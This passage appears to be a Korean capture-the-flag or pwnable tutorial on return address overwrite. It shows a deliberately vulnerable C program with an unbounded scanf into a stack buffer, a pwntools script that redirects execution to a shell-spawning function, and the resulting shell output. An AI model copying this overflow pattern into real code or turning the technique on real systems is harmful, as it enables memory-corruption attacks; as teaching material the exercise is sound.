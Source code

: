 ```python
// Name: rao.c
// Compile: gcc -o rao rao.c -fno-stack-protector -no-pie
#include <stdio.h>
#include <unistd.h>
void get_shell() {
  char *cmd = "/bin/sh";
  char *args[] = {cmd, NULL};
  execve(cmd, args, NULL);
}
int main() {
  char buf[0x28];
  printf("Input: ");
  scanf("%s", buf);
  return 0;
}
```

- rao 예제코드(`rao.py` )

```python
#!/usr/bin/python3
#Name: rao.py

from pwn import *          # Import pwntools module

p = process('./rao')       # Spawn process './rao'

elf = ELF('./rao')
get_shell = elf.symbols['get_shell']       # The address of get_shell()

payload = b'A'*0x30        #|       buf      |  <= 'A'*0x30
payload += b'B'*0x8        #|       SFP      |  <= 'B'*0x8
payload += p64(get_shell)  #| Return address |  <= '\xaa\x06\x40\x00\x00\x00\x00\x00'

p.sendline(payload)        # Send payload to './rao'

p.interactive()            # Communicate with shell
```

```python
$ python3 rao.py
[+] Starting local process './rao': pid 416
[*] Switching to interactive mode
$ id
uid=1000(dreamhack) gid=1000(dreamhack) groups=1000(dreamhack) ...
```